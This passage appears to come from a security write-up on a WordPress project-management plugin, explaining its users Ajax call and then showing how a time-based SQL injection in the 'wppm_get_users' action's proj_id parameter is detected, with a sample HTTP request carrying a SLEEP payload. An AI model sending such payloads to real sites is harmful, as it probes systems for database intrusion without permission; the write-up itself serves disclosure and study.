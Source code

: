 👉 Clicking the **icon next to Users** triggers Ajax, sending a request to the server to fetch project users and render them in HTML.

![modal display](model_display.png "Model display")

---

## Exploit

### Detect SQLi

Capture requests using BurpSuite and send a **time-based SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](sqli_success.png "Sqli success")
